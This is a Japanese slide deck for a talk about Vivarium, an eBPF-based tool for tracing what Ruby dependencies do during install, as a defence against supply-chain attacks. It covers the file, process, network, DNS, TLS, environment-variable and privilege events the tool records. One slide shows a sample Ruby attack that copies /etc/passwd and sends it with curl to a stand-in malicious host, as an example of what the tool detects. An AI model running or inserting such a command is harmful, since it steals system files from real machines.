




----
marp: true
theme: default
paginate: true
title: "サプライチェーンアタックが怖いので、セキュリティツールを作り始めた話"
description: "@ ツナギメオフライン ベンキョウカイ #8"
image: https://udzura.jp/slides/2026/tsunagime-offline-8/ogp.png
style: |
  h1 { color: #c00000; }
  h2 { color: #c00000; }
  section li { color: #4e4c49 }
  section.hero > h1 { font-size: 50pt; }
  section.profile img {
    position: absolute;
    top: 25%;
    left: 65%;
    overflow: hidden !important;
    border-radius: 50% !important;
  }
  section {
    position: relative;
  }
  section::before {
    content: "";
    position: absolute;
    right: 16px;
    bottom: 12px;
    width: 100px;
    height: 100px;
    background: url("qrcode.png") center / contain no-repeat;
    opacity: 0.95;
    pointer-events: none;
    z-index: 1;
  }
----
<!--
_class: hero
-->

# サプライチェーンアタックが怖いので、セキュリティツールを作り始めた話

### ツナギメオフライン ベンキョウカイ #8

---

<!--
_class: profile
-->

# 自己紹介



- 近藤うちお (@udzura)
- エンジニアカフェ ハッカーサポーター
- 所属: 株式会社SmartHR / Fukuoka.rb
- 『入門eBPF』（オライリージャパン）という
本を共同翻訳しました

---

# どうしてもしないといけない宣伝


- 7/3 にエッジランタイムの勉強会をします！＠エンジニアカフェ
- Cloudlare Workersの話でも、その他の話でもぜひ！
- QRコードにアクセス！

---

<!--
_class: hero
-->

# サプライチェーンアタック

---

## サプライチェーンアタック、どうしてます？

- 各種対策がある
  - **クールダウン**
  - セキュアプロクシ、トークンを最小権限に、など...
- クールダウンって...
  - 僕だったらN日待ってから攻撃するスクリプト書きますね...

---

<!--
_class: hero
-->

# じゃあどうしよう

---

## こういうことをしたい

- 安全な環境で以下をやる
  - bundler(Ruby) や npm(Node.js) で一度lockfileを更新する
  - 実際にインストールする
  - 場合により、 smoke test 的に起動までを行う
  - **その間のアプリケーションの挙動を観察する**

---

<!--
_class: hero
-->

# そんなことできるの？

---

<!--
_class: hero
-->

# 少なくとも Linux であればできる

---

<!--
_class: hero
-->


<center style="font-size: 1.3em; padding-top: 14em;">

[https://github.com/udzura/vivarium](https://github.com/udzura/vivarium)

</center>

---

## Vivarium とは？

- アプリケーションで起こったシステムイベントと、
言語側のイベントを一気通貫で可視化するフレームワーク
- eBPF を利用
- （今の所）Ruby 向け・Ruby 特化

---

## 例えば？

- 攻撃コード（curl で malicious なサイトに POST）

```ruby
system "cat /etc/passwd > /tmp/___________copy.txt 2>&1 || true"
system "curl -d@/tmp/___________copy.txt http://malicious.udzura.jp" + 
" >/dev/null 2>&1 || true"
system "rm -f /tmp/___________copy.txt >/dev/null 2>&1 || true"
```

- 実際には難読化されているかもしれない

---

## Vivarium 有効状態で実行してみる

こういうログが出るぞ！



---

## ログを AI に渡して判定させることもできる

- さっきの例であれば `/etc/passwd` へのアクセス、 `malicious.udzura.jp` への名前解決などが記録されている
- ほぼどういうアクションをしたかが筒抜けなので、AIが解読可能

---

## こういうことに応用できそう

- デバッグ
- 動的検査
- Runtime Security

---

# Vivariumのコア技術は？

- **eBPF** という Linux カーネルの機能を使って、アプリケーションのシステムイベントを捕捉する

---

# eBPFに詳しくなっちゃおう...

---

# Disclaimer

- ワイはこの本の翻訳者です。



---

## eBPF をなるべく正確（？？）に説明

- Linux カーネル内で動かせるミニプログラムフレームワークみたいなもの
- プログラムはカーネルにロードされ、 **特定のイベントにフック** して実行される
- 動的に有効にできる（再起動やカーネル再コンパイルは不要）

---

# AIが生成しやがった図

```
ユーザランド                  カーネル
  ┌──────────┐   load    ┌─────────────────────┐
  │ BPF prog │ ────────> │ verifier → JIT      │
  └──────────┘           │                     │
                         │  hook: kprobe       │
                         │  hook: LSM          │
                         │  hook: tracepoint   │
                         └─────────────────────┘
```

---

# 要は何ができるか

- Linuxカーネルの各種イベント経由で「どんなシステム操作がされたか」をトレースできる
  - カーネルが固定で持っている各種フック(kprobe/kfunc)
  - カーネル関数の呼び出し(tracepoint or LSM hook)
  - 謎の力でユーザ側の共有ライブラリ等のC関数呼び出し等も追える(uprobe/USDT)

---

## 観察できるイベント（一覧）

- ファイル操作
- プロセス実行・共有ライブラリのロード
- ネットワーク接続
- DNS クエリ
- SSL/TLS 通信
- 環境変数の操作
- 権限・kill・セキュリティ操作
- Ruby メソッドのトレース...

---

## イベント: ファイル操作

BPF LSM + tracepoint でファイル系の操作を捕捉

| イベント名 | トリガー |
|---|---|
| `path_open` | ファイルオープン（`file_open` LSM） |
| `file_symlink` | シンボリックリンク作成（`inode_symlink`） |
| `file_hardlink` | ハードリンク作成（`inode_link`） |
| `file_rename` | ファイルリネーム（`inode_rename`） |
| `file_chmod` | パーミッション変更（`path_chmod`） |
| `file_getdents` | ディレクトリ一覧取得（`getdents64`） |

---

## イベント: プロセス実行

| イベント名 | トリガー |
|---|---|
| `proc_exec` | `execve` — 実行ファイルパス＋最大3件の引数を記録 |
| `proc_fork` | `sched_process_fork` — 子プロセスを追跡対象に自動登録 |

- 観察ブロック内で生まれた子・孫プロセスも自動でトレース対象になる

---

## イベント: ネットワーク接続

BPF LSM でソケットレイヤを監視

| イベント名 | トリガー |
|---|---|
| `odd_socket` | 通常と異なるソケット種別の作成（`socket_create`） |
| `sock_connect` | 接続先のアドレスファミリ・IP・ポートを記録（`socket_connect`） |

- サプライチェーン攻撃の典型パターン「外部への不審な通信」を検出

---

## イベント: DNS クエリ

tracepoint で送信系システムコールをフック

| イベント名 | 対象システムコール |
|---|---|
| `dns_req` | `sendmsg`, `sendto`, `sendmmsg` |

- UDP/53 宛てのパケットから DNS の QNAME（問い合わせドメイン）を抽出
- TODO: TCP/53 とかとか...

---

## イベント: SSL/TLS 通信

uprobe で OpenSSL の関数を直接フック

| イベント名 | トリガー |
|---|---|
| `ssl_write` | `SSL_write`（OpenSSL の送信関数）|

- 暗号化前のペイロードをキャプチャ
- HTTPS 1.1 / HTTP2 どちらも対応

---

## イベント: 環境変数

uprobe で libc の ENV 操作関数を直接フック

| イベント名 | トリガー |
|---|---|
| `env_caccess` | `getenv`, `setenv`, `unsetenv`, `putenv`, `clearenv` |

- Ruby の `ENV` クラスを経由した操作に加えてlibcも捕捉する

---

## イベント: 権限・セキュリティ操作

severity: **high** 判定になるイベント群

| イベント名 | 意味 |
|---|---|
| `setid_change` | `setuid` / `setgid` による権限変更 |
| `capable_check` | 高リスクな Linux capability の行使 |
| `bprm_creds` | 実行ファイルへの権限付与（setuid ビット等） |
| `task_kill` | プロセスへのシグナル送信 |
| `ptrace_check` | `ptrace` による他プロセスへのアタッチ |
| `sb_mount` | ファイルシステムのマウント |
| `kernel_read_file` | カーネルによるファイル読み込み（モジュール等） |

---

## Ruby 側のイベントトレース

- Ruby の TracePoint を経由して指定したメソッドの呼び出しをトレースする
  - デフォルトでは `require`, `eval` などを捕捉
- 素朴にやるとパフォーマンス影響が大きいので工夫している（後述）

---

<!--
_class: hero
-->

# アーキテクチャ解説

---

## 構成概要

- **vivariumd** — デーモンプロセス（eBPF 管理・イベント収集）
- **クライアント（観察対象）** — `Vivarium.observe` で自分の PID を登録
  - お互いのやり取りは
    - カーネルイベント: eBPF / BPF Map
    - その他データ: UNIX ドメインソケット(UDS)

---

## イベント収集の流れ

1. `Vivarium.observe` で PID を eBPF の観察対象 Map に登録
2. クライアントでイベントが起こる
3. → eBPF プログラムが非同期に捕捉
4. → eBPF の Ringbuf Map にイベントを整形して送信
5. → ユーザ側でデーモン経由で順番に取得
6. → 整形してツリー状に表示

---

## Ruby イベントとシステムイベントを同一タイムラインで捕捉する技

- TracePoint の中で同期的に記録するとめちゃくちゃ遅くなる
- → **USDT**（User Statically Defined Tracing）を使う

---

## USDT の仕組み

- ユーザランドからカーネルに任意のイベントを送れる
- 拡張ライブラリとして USDT を定義
- TracePoint の中で invoke（送信は非同期）
- → カーネルで非同期に、他のシステムイベントと同様に検知できる
- → Ringbuf に送り、同様に整形可能

---



---

- 時間があればライブデモ...

---

<!--
_class: hero
-->

# 今後やりたいこと

---

## eBPF でアクションの禁止もできる

- 最近の eBPF はイベントの観察だけでなく制御もできる
  - kill シグナルを強制で送る
  - システム操作を失敗させる（**BPF LSM**）
- これができると Runtime Security 用途でも使える

---

## まとめ

- サプライチェーンアタック対策として、インストール時の挙動観察が有効かも
- Vivarium: eBPF を使って Ruby アプリのシステム＋言語イベントを可視化
  - ファイル・ネットワーク・プロセス・DNS・SSL・ENV・権限操作を網羅
- libc uprobe で ENV 操作もキャプチャ（ペイロードデコーダで内容も復元）
- USDT でパフォーマンスを落とさず Ruby イベントも統合追跡
- 今後は BPF LSM でアクション制御も

---

<!--
_class: hero
-->

# おわり
